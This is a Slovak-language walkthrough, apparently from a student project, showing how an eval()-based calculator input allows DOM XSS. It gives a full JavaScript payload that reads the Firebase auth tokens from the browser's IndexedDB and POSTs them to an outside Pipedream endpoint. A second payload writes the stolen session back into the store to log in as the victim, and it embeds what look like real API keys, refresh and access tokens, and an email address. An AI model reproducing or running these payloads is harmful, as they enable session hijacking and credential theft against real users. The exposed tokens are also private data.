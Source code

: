 # Document object model cross site scripting (DOM XSS)
## eval()

- eval() je funkcia, ktora vyhodnoti akukolvek hodnotu, ktore je vlozena ako argument. Vie vypocitavat rozne rovnice, preto je idealnym riesenim pre primitivnu kalkulacku.
- Kazdopadne tym, ze vyhodnoti akukolvek hodnotu vyhodnoti aj akykolvek skodlivy kod, ktory ako argument vlozime.
- Input s textom "Enter equation..." vyhodnocuje prave funkcia eval a prerpokladame, ze tu vznika zranitelnost.
- Pokusime sa o ukradnutie uzivatelovych dat z databazy prehliadacu. Do inputu vlozime nasledovny kod.
      <pre>
            const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const getDataRequest = objectStore.getAll();

              getDataRequest.onsuccess = (event) => {

              const headers = new Headers();
              headers.append("Content-Type", "text/plain");

              const options = {
                method: "POST",
                headers,
                mode: "cors",
                body: JSON.stringify(event.target.result),
              };

              fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
              }
            };
        </pre>
- Tento kod spristupni lokalnu databazu prehliadaca a umozni nam vytiahnut akukolvek hodnotu z databazy. Nas momentalne zaujima <i>firebaseLocalStorage</i>, ktoru nastavuje
        externa API Firebase, ktoru pouziva aplikacia na autentifikaciu. Po jej vytiahnuti sa cely objekt posle na nas vytvoreny endpoint na Pipedreame.
- Teraz sa mozeme odhlasit a prihlasit do lubovlneho uctu, ktory uz mame vytvoreny alebo si vytvorime novy.
- Prejdeme znova na tuto stranku a vlozime nasledujuci kod do rovnakeho inputu.
      <pre>
            const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const data = {
                fbase_key:
                  "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
                value: {
                  uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
                  email: "mate@gmail.com",
                  emailVerified: false,
                  isAnonymous: false,
                  providerData: [
                    {
                      providerId: "password",
                      uid: "mate@gmail.com",
                      displayName: null,
                      email: "mate@gmail.com",
                      phoneNumber: null,
                      photoURL: null,
                    },
                  ],
                  stsTokenManager: {
                    refreshToken:
                      "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                        9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
                    accessToken:
                      "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
          .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
          iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
          hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
          pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
          3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
          7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
          wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
                    expirationTime: 1711794096425,
                  },
                  createdAt: "1711388904315",
                  lastLoginAt: "1711790496471",
                  apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
                  appName: "[DEFAULT]",
                },
              };

              objectStore.clear()

              const addDataRequest = objectStore.add(data);

              addDataRequest.onsuccess = (event) => alert("Success!");
            };
        </pre>
- Tento kod ulozi, respektive prepise data o prihlasenom pouzivatelovi. Objekt data nahradime novym objektom, ktory nam dosiel na Pipedream. Zo skopirovaneho objektu musime zo vsetkych attributov odstranit uvodzovky a nechat len pri hodnotach.
- Po kliknuti <i>Enter</i> sme si do prehliadaca ulozili prihlasovacie udaju obete a teraz sme prihlaseny pod jeho prihalsovacimi udajmi.